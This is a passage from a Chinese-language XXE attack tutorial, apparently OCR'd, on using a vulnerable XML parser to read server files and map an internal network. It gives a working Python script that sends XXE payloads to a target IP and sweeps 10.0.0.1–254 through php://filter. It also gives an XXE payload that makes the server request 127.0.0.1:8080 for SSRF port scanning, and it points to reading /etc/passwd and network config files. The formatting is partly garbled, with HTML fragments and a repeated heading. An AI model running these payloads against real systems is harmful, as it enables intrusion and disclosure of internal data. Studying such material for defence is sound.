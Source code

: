 
— — — — — —

### 7.2、HTTP 内网主机探测

> 
<h4>7.2.1、前提：</h4>
存在 XXE 漏洞的服务器
— — — — — —
<h4>7.2.2、读取</h4>
先利用 file 协议读取存在XXE漏洞服务器的网络配置文件
eg（Linux）： /etc/network/interfaces 或 /proc/net/arp 或者/etc/host 文件
— — — — — —
<h4>7.2.3、示例</h4>
（需要基础的python知识，科班应该都没什么问题）
//（调用自己编写的请求和编码模块）
import requests<br/> import base64
— — — — — —
//（1）定义创建XML的函数build_xml
def build_xml(string):<br/>     xml = """&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;"""<br/>     xml = xml + "\r\n" + """&lt;!DOCTYPE foo [ &lt;!ELEMENT foo ANY &gt;"""<br/>     xml = xml + "\r\n" + """&lt;!ENTITY xxe SYSTEM """ + '"' + string + '"' + """&gt;]&gt;"""<br/>     xml = xml + "\r\n" + """&lt;xml&gt;"""<br/>     xml = xml + "\r\n" + """    &lt;stuff&gt;&amp;xxe;&lt;/stuff&gt;"""<br/>     xml = xml + "\r\n" + """&lt;/xml&gt;"""<br/>     send_xml(xml)
— — — — — —
//（2）定义发送自定义函数send_xml(数据、编码…)
def send_xml(xml):<br/>     headers = {'Content-Type': 'application/xml'}<br/>     x = requests.post('http://110.110.110.110/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text<br/>     coded_string = x.split(' ')[-2]         //分开以获取Base64编码值<br/>     print coded_string        //打印base64编码值<br/> for i in range(1, 255):        //循环<br/>     try:<br/>         i = str(i)<br/>         ip = '10.0.0.' + i<br/>         string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'<br/>         print string<br/>         build_xml(string)<br/>     except:<br/> continue


#### 7.2.2、读取

— — — — — —

### 7.3、开放端口扫描

> 
<h4>7.3.1、读取配置文件</h4>
通过URL将请求指向/etc/passwd配置文件，并返回文件内容
<h4>7.3.2、发送请求</h4>
使用URL强制服务器向指定端口发送GET请求（SSRF服务器端请求伪造）
尝试与端口建立连接，根据响应时间/长度判断端口是否开启
&lt;?xml version="1.0"?&gt;<br/> &lt;!DOCTYPE GVI [&lt;!ENTITY xxe SYSTEM "http://127.0.0.1:8080" &gt;]&gt;<br/> &lt;catalog&gt;        &lt;!--看注(2)--&gt;<br/>    &lt;core id="test1"&gt;        &lt;!--看注(3)--&gt;<br/>       &lt;author&gt;mike&lt;/author&gt;<br/>       &lt;title&gt;XML&lt;/title&gt;<br/>       &lt;category&gt;root&lt;/category&gt;<br/>       &lt;price&gt;30.00&lt;/price&gt;<br/>       &lt;date&gt;2022-05-01&lt;/date&gt;<br/>       &lt;description&gt;&amp;xxe;&lt;/description&gt;<br/>    &lt;/core&gt;<br/> &lt;/catalog&gt;
&lt;!--英文看注(1)--&gt;

